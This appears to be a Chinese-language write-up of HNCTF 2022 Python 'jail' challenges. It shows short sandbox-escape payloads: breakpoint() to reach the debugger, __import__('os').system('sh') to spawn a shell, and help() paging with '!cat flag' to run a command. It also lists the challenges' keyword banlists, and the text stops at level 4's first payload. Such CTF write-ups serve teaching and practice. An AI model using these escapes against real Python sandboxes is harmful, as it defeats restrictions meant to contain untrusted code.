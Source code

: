 ## [HNCTF 2022 Week1]calc_jail_beginner_level2(JAIL)

> `__import__`：载入模块函数，例如载入`os`模块为`__import__('os')`。

输入长度不大于$13$。

payload1：

```python
breakpoint()
```

进入Pdb

payload2：

```python
eval(input())
__import__('os').system('sh')
```

## [HNCTF 2022 Week1]calc_jail_beginner_level2.5(JAIL)

限制13字符。

BANLIST：

```
exec input eval
```

同上。

## [HNCTF 2022 Week1]calc_jail_beginner_level3(JAIL)

限制$7$字符。

> 使用`help()`函数，随后获取`os`的帮助，因内容太多会使用`--More--`进行展示。在其后面使用`!cat flag`造成命令执行。

payload：

```
help()
os
!cat flag
```

## [HNCTF 2022 WEEK2]calc_jail_beginner_level4(JAIL)

BANLIST：

```
"\'` __loader__ __import__ compile eval exec chr
```

没有禁掉`b`，可以拿`bytes[]`造`system`。

payload1：
